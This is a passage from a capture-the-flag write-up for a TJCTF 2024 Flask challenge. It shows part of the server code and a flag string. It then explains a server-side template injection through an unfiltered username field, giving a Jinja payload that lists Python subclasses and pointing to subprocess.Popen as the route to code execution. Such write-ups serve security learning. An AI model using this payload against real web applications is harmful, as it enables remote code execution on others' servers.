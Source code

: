 ``` tjctf{t3mpl4t3r_1_h4rdly_kn0w_h3r_bf644616} ```
    except Exception as e:
        print(e)
        return "Internal server error", 500


@app.route("/view_playlist/<uuid:name>")
def view_playlist(name):
    name = str(name)
    try:
        return render_template(f"uploads/{name}.html")
    except Exception as e:
        print(e)
        return "checkout not found", 404


if __name__ == "__main__":
    app.run(port=5000, debug=True)

```

In the text field we have some filtering, but on the username not, so we go for an [SSTI](https://portswigger.net/web-security/server-side-template-injection):

```python
{% raw %}{{''.__class__.__mro__[1].__subclasses__()}}{% endraw %}

# It returns the set of classes, we like to use Popen to get RCE
...
<class "gunicorn.http.wsgi.Response">
<class "subprocess.CompletedProcess">
<class "subprocess.Popen"> # Line 337
<class "gunicorn.workers.workertmp.WorkerTmp">
...
```

- Classes:

<p align="center">
  <img src="/images/writeups/TJCTF2024/7_0_classes.png" width="90%"/>
</p>
